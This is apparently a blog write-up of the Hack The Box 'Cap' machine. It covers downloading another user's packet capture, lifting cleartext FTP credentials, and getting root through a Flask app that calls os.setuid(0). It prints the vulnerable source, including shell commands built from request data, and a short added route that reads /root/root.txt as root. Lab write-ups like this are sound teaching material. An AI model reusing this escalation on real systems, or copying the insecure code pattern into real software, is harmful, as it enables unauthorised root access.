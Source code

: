 ```yaml
---
title: "📦 HTB - Cap"
date: 2021-07-28 16:00:00
tags: ["htb", "writeup"]
author: "0xNinja"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
cover:
    image: box.png
---
```


> Simple easy box, perfect to warmup before the FIC 2021 and get more confidence in 1337 h4ck1n9

## TL;DR

Find PCAP file on server, get SSH credentials, execute code as root with Python.

## Footholds

I did not even use `nmap` here, as we had a web server serving on port `tcp:80`. This website looked like this:

![Cap index](index.png)

It seems to be a security dashboard for a server, we don't have any info about that. We have multiple endpoints on the server :

* `/capture`: redirects to `/data/{id}` after loading
* `/data/{id}`: we can download `{id}.pcap` by clicking a button
* `/ip`: get a `netstat` output

What can we do with that?

## User

I got to download the file `11.pcap`, and got nothing in it. I recognized that all my interactions with the server were logged in this PCAP, which is odd, I tought the server was serving a particular PCAP.

After playing again with the `/capture` endpoint, I figured out that the `/data/{id}` correspond to a specific user or IP. So I checked `/data/0` and got the following data:

![0.pcap](pcap.png)

And guess what? Yes we can see credentials in cleartext here:

![FTP connection in 0.pcap](ftp.png)

So we can SSH to the machine with those.

## Root

### Source code

The server was running in `/var/www/html/app.py` which is a Flask server. the user `nathan` have `rw` rights on it so I checked the source code:

```py
import os
from flask import *
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
import tempfile
import dpkt
from werkzeug.utils import append_slash_redirect

# [...]

app = Flask(__name__)

@app.route("/")
def index():
        return render_template("index.html")

@app.route("/capture")
@limiter.limit("10 per minute")
def capture():
        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)

        return redirect("/data/" + str(pcapid))

@app.route("/ip")
def ifconfig():
	d = os.popen("ifconfig").read().strip()
	print(d)
	return render_template("index.html", rawtext=d)

@app.route("/data/<id>")
def data_id(id):
        try:
                id = int(id)
        except:
                return redirect("/")
        try:
                data = process_pcap(os.path.join(app.root_path, "upload", str(id) + ".pcap"))
                path = str(id) + ".pcap"
                return render_template("index.html", data=data, path=path)
        except Exception as e:
                print(e)
                return redirect("/")

# [...]

if __name__ == "__main__":
        app.run("0.0.0.0", 80, debug=True)
```

I removed some code for readability but you get the idea. The important stuff is the `os.setuid(0)` part. If you want the complete code, [check it here](app.py).

### Exploit

As you can expect here we can execute code as root with the `os.setuid(0)` line. So I just edited this `app.py` file and added one route:

```py
@app.route("/test")
def test():
    os.setuid(0)
    data = os.popen("cat /root/root.txt").read()
    return render_template("index.html", data=data)

# opened a new port on the machine
if __name__ == "__main__":
    app.run("0.0.0.0", 65000, debug=True)
```

Then I started the server in the SSH connection: `nathan@cap: python3 app.py`, and connected on the server on my local machine with `firefox http://cap.htb:65000/test`.

![RCE as root](root.png)

And voilà.

![Cap rooted](rooted.png)
